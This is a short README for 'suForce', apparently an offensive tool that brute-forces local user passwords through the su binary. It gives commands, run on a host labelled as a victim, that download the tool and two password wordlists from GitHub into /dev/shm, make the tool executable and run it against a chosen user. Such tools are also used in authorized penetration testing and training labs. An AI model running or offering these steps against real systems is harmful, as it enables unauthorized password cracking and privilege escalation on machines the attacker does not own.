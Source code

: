 # suForce

**`suForce` performs `brute force` attacks on user `passwords` by abusing the `su` binary.**

![](/screenshot.png)

- <kbd>Download</kbd>

suForce

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce"
user@vitim:~$ chmod +x suForce
```

Wordlist (Optional)

```scmd
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ ./suForce -u <USER> -w <WORDLIST>
```

---
